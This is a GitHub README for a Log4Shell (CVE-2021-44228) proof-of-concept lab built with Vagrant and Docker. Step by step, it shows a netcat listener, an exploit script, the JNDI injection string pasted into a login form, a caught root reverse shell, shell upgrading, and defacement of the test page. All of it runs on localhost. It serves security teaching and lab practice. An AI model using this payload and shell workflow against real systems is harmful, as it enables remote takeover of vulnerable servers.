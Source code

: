 # Log4Shell PoC

rm_poc_log4shell

## PreReqs

- Windows system with minimum 8GB RAM
- Installed:
  - Visual Studio Code
  - git
  - virtualbox
  - vagrant
- Download vulnerable [jdk-8u20](https://mega.nz/file/cFQF3SpC#U01e3y3L2f-_lYzL8s5a_x11C4n7IJYMbztS4x2mT-o)

## Credentials

| Login   | Passwd  | VM      |
| :------ | :------ | :------ |
| vagrant | vagrant | all     |
| debuser | log123  | deblab  |
| kauser  | log123  | kalilab |

## Video walkthrough

[![Watch the video](https://i.imgur.com/pXGHUTd.png)](https://youtu.be/nLZ8yn0Lc_E)

## VM environment

1. clone repo: <https://github.com/ttgithg/rm_poc_log4shell>

    ```bash
    git clone git@github.com:ttgithg/rm_poc_log4shell
    ```

2. Put downloaded jdk-file in cloned github repo: `\rm_poc_log4shell\provisioning\files\log4jlab`

3. Open Visual Studio Code and open the cloned repo `rm_poc_log4shell` as a working folder

4. Open the root of `rm_poc_log4shell` in an Integrated Terminal

5. Check status: `vagrant status`

6. Create VM + provision: `vagrant up deblab`

    **Note**: In case of errors correct them and try provisioning again with: `vagrant provision deblab`

**Note**:

You can connect with ssh: `vagrant ssh deblab`

## Lab environment

Open the deblab GUI and login with debuser.
We will need 3 terminals for this setup to manage a log4shell hack.
We open the browser on the localhost:8080 and past the given request: `${jndi:ldap://localhost:1389/a}`

### Summary

```bash
# Terminal1: netcat listener
nc -lvnp 9001

# Terminal2: Launch exploit
cd /log4jlab
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

# Terminal3: vulnerable application
cd /log4jlab
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc

# browser: paste request: ${jndi:ldap://localhost:1389/a}
http://localhost:8080/
```

### Extended walkthrough

#### Terminal 1: netcat listener

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
```

#### Terminal 2: Launch exploit

```bash
debuser@deblab:/log4jlab$ cd /log4jlab/; ls
Dockerfile                 LICENSE    requirements.txt
jdk1.8.0_20                poc.py     target
jdk-8u20-linux-x64.tar.gz  README.md  vulnerable-application

debuser@deblab:/log4jlab$ sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for debuser: 

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

#### Terminal 3: create vulnerable application

```bash
debuser@deblab:/log4jlab$ cd /log4jlab/

debuser@deblab:/log4jlab$ docker build -t log4j-shell-poc .
Sending build context to Docker daemon  574.8MB
Step 1/5 : FROM tomcat:8.0.36-jre8
8.0.36-jre8: Pulling from library/tomcat
8ad8b3f87b37: Pull complete 
751fe39c4d34: Pull complete 
b165e84cccc1: Pull complete 
acfcc7cbc59b: Pull complete 
04b7a9efc4af: Pull complete 
b16e55fe5285: Pull complete 
8c5cbb866b55: Pull complete 
96290882cd1b: Pull complete 
85852deeb719: Pull complete 
ff68ba87c7a1: Pull complete 
584acdc953da: Pull complete 
cbed1c54bbdf: Pull complete 
4f8389678fc5: Pull complete 
Digest: sha256:e6d667fbac9073af3f38c2d75e6195de6e7011bb9e4175f391e0e35382ef8d0d
Status: Downloaded newer image for tomcat:8.0.36-jre8
 ---> 945050cf462d
Step 2/5 : RUN rm -rf /usr/local/tomcat/webapps/*
 ---> Running in f07313c7813c
Removing intermediate container f07313c7813c
 ---> 0aa3d79eeb7c
Step 3/5 : ADD target/log4shell-1.0-SNAPSHOT.war /usr/local/tomcat/webapps/ROOT.war
 ---> 3236fc49ad3d
Step 4/5 : EXPOSE 8080
 ---> Running in b73e25384301
Removing intermediate container b73e25384301
 ---> 709b6daec9b1
Step 5/5 : CMD ["catalina.sh", "run"]
 ---> Running in a390bc35dbb4
Removing intermediate container a390bc35dbb4
 ---> bb22ea172197
Successfully built bb22ea172197
Successfully tagged log4j-shell-poc:latest

debuser@deblab:/log4jlab$ docker run --network host log4j-shell-poc
25-May-2022 17:29:07.563 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version:        Apache Tomcat/8.0.36
25-May-2022 17:29:07.564 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Jun 9 2016 13:55:50 UTC
25-May-2022 17:29:07.564 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server number:         8.0.36.0
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            5.10.0-13-amd64
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/lib/jvm/java-8-openjdk-amd64/jre
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_102-8u102-b14.1-1~bpo8+1-b14
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.endorsed.dirs=/usr/local/tomcat/endorsed
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.base=/usr/local/tomcat
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.home=/usr/local/tomcat
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.io.tmpdir=/usr/local/tomcat/temp
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent Loaded APR based Apache Tomcat Native library 1.2.7 using APR version 1.5.1.
25-May-2022 17:29:07.567 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent APR capabilities: IPv6 [true], sendfile [true], accept filters [false], random [true].
25-May-2022 17:29:07.569 INFO [main] org.apache.catalina.core.AprLifecycleListener.initializeSSL OpenSSL successfully initialized (OpenSSL 1.0.2h  3 May 2016)
25-May-2022 17:29:07.616 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["http-apr-8080"]
25-May-2022 17:29:07.621 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["ajp-apr-8009"]
25-May-2022 17:29:07.622 INFO [main] org.apache.catalina.startup.Catalina.load Initialization processed in 345 ms
25-May-2022 17:29:07.637 INFO [main] org.apache.catalina.core.StandardService.startInternal Starting service Catalina
25-May-2022 17:29:07.637 INFO [main] org.apache.catalina.core.StandardEngine.startInternal Starting Servlet Engine: Apache Tomcat/8.0.36
25-May-2022 17:29:07.652 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deploying web application archive /usr/local/tomcat/webapps/ROOT.war
25-May-2022 17:29:07.751 WARNING [localhost-startStop-1] org.apache.tomcat.util.descriptor.web.WebXml.setVersion Unknown version string [4.0]. Default version will be used.
25-May-2022 17:29:08.005 INFO [localhost-startStop-1] org.apache.jasper.servlet.TldScanner.scanJars At least one JAR was scanned for TLDs yet contained no TLDs. Enable debug logging for this logger for a complete list of JARs that were scanned but no TLDs were found in them. Skipping unneeded JARs during scanning can improve startup time and JSP compilation time.
25-May-2022 17:29:08.025 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deployment of web application archive /usr/local/tomcat/webapps/ROOT.war has finished in 373 ms
25-May-2022 17:29:08.030 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["http-apr-8080"]
25-May-2022 17:29:08.055 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["ajp-apr-8009"]
25-May-2022 17:29:08.056 INFO [main] org.apache.catalina.startup.Catalina.start Server startup in 433 ms
```

#### Browser

- Open URL: <http://localhost:8080/>
- paste `${jndi:ldap://localhost:1389/a}` in the `username` section
- press `login`

![poc log4shell](img/deblabimg/1.poc-log4shell-dl.png)

The hack succeeded when the netcat listener gives:

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 33230
```

### Hack along

You can check your access, switch to interactive shell and do your log4shell afterhackings ..

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 33230
whoami
root
/usr/bin/script -qc /bin/bash /dev/null
root@deblab:/usr/local/tomcat# ^Z
[1]+  Stopped                 nc -lvnp 9001
debuser@deblab:/log4jlab$ stty raw -echo; fg; reset
nc -lvnp 9001

root@deblab:/usr/local/tomcat# sed -i 's/Hello Again!/<<< LOG4SHELL PoC >>>/g' webapps/ROOT/index.jsp

root@deblab:/usr/local/tomcat# sed -i 's/Login/HACKED/g' webapps/ROOT/index.jsp

# Refresh browser ;-)
```

![poc log4shell](img/deblabimg/2.poc-log4shell-dl.png)

### Reference

- Automated environment using vagrant with a [ansible skeleton](https://github.com/bertvv/ansible-skeleton) built by bertvv
- Log4j CVE-2021-44228 poc [githubRepo](https://github.com/kozmer/log4j-shell-poc) built by kozer
- Log4j CVE-2021-44228 testing tools [URL](https://log4shell.tools/) and [gitRepo](https://github.com/alexbakker/log4shell-tools) built by Alexander Bakker
